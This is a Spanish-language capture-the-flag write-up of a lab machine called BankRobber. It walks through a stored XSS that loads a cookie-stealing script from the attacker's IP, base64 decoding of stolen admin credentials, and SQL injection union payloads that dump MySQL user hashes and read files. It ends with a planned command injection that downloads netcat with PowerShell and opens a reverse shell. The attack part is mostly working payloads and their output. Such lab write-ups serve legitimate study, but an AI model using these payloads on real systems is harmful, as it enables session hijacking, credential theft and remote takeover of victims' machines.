 ## Vulnerability Assessment {-}

### XSS injection {-}

Testeamos que accion puede efectuar el administrador y por el mismo tiempo, si el input de comment es vulnerable a un **XSS**.

1. Nos montamos un servidor web en python

    ```bash
    python3 -m http.server 80
    ```

1. Modificamos los valores de la transferencia

    ```bash
    Amount: 1
    ID of Addressee: 1
    Comment to him/her: <script src="http://10.10.17.51/diamondjackson.jpg"></script>
    ```

Aqui vemos que esta vulnerable a XSS porque recibimos una peticion GET.


La idea aqui seria robar la cookie de session del administrador.

1. Checkeamos nuestra propria cookie de session con Burpsuite

    ```r
        knitr::include_graphics("images/BankRobber-mycookie.png")
    ```

1. Como la cookie esta URL encodeada le damos a Ctrl+Shift+U y copiamos la cookie
1. Analyzamos la cookie

    - Tiene 3 campos, *id* - *username* - *password*
    - Decodificamos el username

        ```bash
        echo "czR2aXRhcg==" | base64 -d; echo
        #Output
        s4vitar
        ```
    
    - Decodificamos el password

        ```bash
        echo "czR2aXRhcjEyMw==" | base64 -d; echo
        #Output
        s4vitar123
        ```

    Aqui vemos que la cookie unicamente esta encryptada en base64.

1. Intentamos robar la cookie del admin.

    - Creamos un fichero test.js

        ```javascript
        var request = new XMLHttpRequest();
        request.open('GET', 'http://10.10.17.51/?cookie='+document.cookie, true);
        request.send();
        ```

    - Creamos un servidor web con python

        ```bash
        python3 -m http.server 80
        ```

    - Modificamos nuevamente los valores de la transferencia
    
        ```bash
        Amount: 1
        ID of Addressee: 1
        Comment to him/her: <script src="http://10.10.17.51/test.js"></script>
        ```

    Aqui ya vemos la cookie de session del administrador.

1. Decodificamos la cookie del admin.

    ```bash
    php --interactive
    php > echo urldecode("username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D")
    #Output
    username=YWRtaW4=; password=SG9wZWxlc3Nyb21hbnRpYw==

    echo "YWRtaW4=" | base64 -d; echo
    #Output
    admin

    echo "SG9wZWxlc3Nyb21hbnRpYw==" | base64 -d; echo
    #Output
    Hopelessromantic
    ```

1. Nos conectamos a la web como el usuario admin.

Hay un link user.txt que nos muestra un mensaje TODO que seria de mover todos los ficheros al Default Xampp folder.
Buscando por internet vemos que este directorio seria `C:\xampp\htdocs`.

En la pagina principal, vemos un panel de administracion. Aqui vemos 2 cosas,

- Un campo que nos permitiria ejecutar comandos en la maquina victima
- Un campo Search users que es en beta. Nos permite buscar usuarios por su ID

El campo para ejecutar comandos no funcciona porque tendriamos que estar loggeado desde la maquina victima atacando este servicio por localhost.
Ademas con Burpsuite, vemos que esta utilidad lanza una peticion a `/admin/backdoorchecker.php` con un parametro `cmd=...`

Como no podemos hacer gran cosa por el momento, analyzamos el campo de busqueda de usuarios.

```bash
1 -> admin
2 -> gio
3 -> s4vitar
1' -> There is a problem with your SQL syntax
```

### SQL Injection {-}

```bash
1' or 1=1-- - 
#Output
1,admin
2,gio
3,s4vitar
```

Seguimos la guia normal de un SQLI

1. Cuantas columnas hay

    ```bash
    1' order by 100-- -         -> There is a problem with your SQL syntax
    1' union select 1,2-- -     -> There is a problem with your SQL syntax
    1' union select 1,2,3-- -
    #Output
    1,admin
    1,2
    ```

    Vemos que hay 3 columnas y vemos la 1 y la 2.

1. Cual es la base de datos

    ```bash
    1' union select 1,database(),3-- -
    #Output
    1,admin
    1,bankrobber
    ```

1. Cual es el usuario que esta actualmente coriendo la base de datos

    ```bash
    1' union select 1,user(),3-- -
    #Output
    1,admin
    1,root@localhost 
    ```

1. Cual es la version de la base de datos

    ```bash
    1' union select 1,version(),3-- -
    #Output
    1,admin
    1,10.1.38-MariaDB
    ```

1. Cual son las otras bases de datos que existen

    ```bash
    1' union select 1,schema_name,3 from information_schema.schemata-- -
    #Output
    1,admin
    1,bankrobber
    1,information_schema
    1,mysql
    1,performance
    1,phpmyadmin
    1,test
    ```

    S4vi nos adelanta que en la base de datos de bankrobber estan unas credenciales de usuarios, pero que no nos sirben porque ya somos admin.
    miramos por la db mysql

1. Buscamos credenciales

    ```bash
    1' union select 1,group_concat(User,0x3a,Password),3 from mysql.user-- -
    #Output
    1,admin
    1,root:*F435735A173757E57BD36B09048B8B610FF4D0C4
    ```

1. Crackeo de hash con john

    ```bash
    echo "root:*F435735A173757E57BD36B09048B8B610FF4D0C4" > credentials.txt
    john --wordlist=/usr/shar/wordlists/rockyou.txt credentials.txt
    ```

    Vemos que no podemos romper el hash

1. Intentamos leer ficheros

    ```bash
    1' union select 1,load_file("C:\\Windows\\System32\\drivers\\etc\\hosts"),3-- -
    ```

    El fichero `\etc\hosts` no nos interesa en este caso pero hemos podido comprobar si podiamos leer ficheros.


    miramos por el fichero `C:\\xampp\\htdocs\\admin\\backdoorchecker.php` y podemos ver la manera de ejecutar comandos bypasseando los badchars.


La idea aqui seria de ejecutar un comando de typo `cmd=dir|powershell -c "iwr -uri http://10.10.17.51/nc.exe -Outfile %temp%\\nc.exe";%temp%\\nc.exe -e cmd 10.10.17.51 443`.
El problema aqui sigue siendo el echo de no poder lanzar este comando porque no estamos lanzando esta peticion desde el localhost de la maquina victima.


